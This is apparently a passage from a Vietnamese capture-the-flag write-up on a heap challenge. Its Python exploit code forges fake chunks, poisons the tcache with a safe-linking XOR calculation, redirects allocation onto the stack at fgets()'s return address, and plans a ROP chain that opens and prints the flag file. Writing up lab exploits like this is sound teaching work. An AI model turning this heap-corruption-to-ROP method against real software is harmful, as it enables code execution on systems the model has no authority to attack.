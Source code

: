 ```python
log.info('[+]target:'+hex(target))
```
- Mục tiêu ta target là hàm fgets() khi nó return ta sẽ ROPchain
![Alt text](image-4.png)

### Fake chunk 2
```python
for i in range(5, 7):
    write(i, 0x280-0x8, b"a")
for i in range(5, 7):
    free(i)
free(0)
free(9)
payload = b"".ljust(0x200-0x10)
payload += flat(0, 0x281)
write(0, 0x300-0x8, payload) 

free(9)
free(0)

payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x281)
payload+= p64((target-0x20) ^ (heap_leak+0x810) >> 12)
write(0, 0x300-0x10,payload)
```
- Tiếp tục fake chunk tương tự lần 1, hơi khác một xíu là gef không hiện tcache =(
- Tại sao có `target-0x20` là khi dừng ở fgets() là do khi debug mình thấy fgets ret ở 0x..68, nên ban đầu mình target 0x..60 như báo lỗi, rồi mình dời xuống 0x60 - 0x20 thì oke
![Alt text](image-5.png)

### ROP
- Có thể thay các lệnh ret bằng các địa chỉ stack ở hình để tránh lỗi chương trình, còn các địa chỉ elf do không libc exe được nên mình ghi tạm bằng lệnh ret
- Mình tạo một chunk chứa path của flag để open và ghi ra màn hình
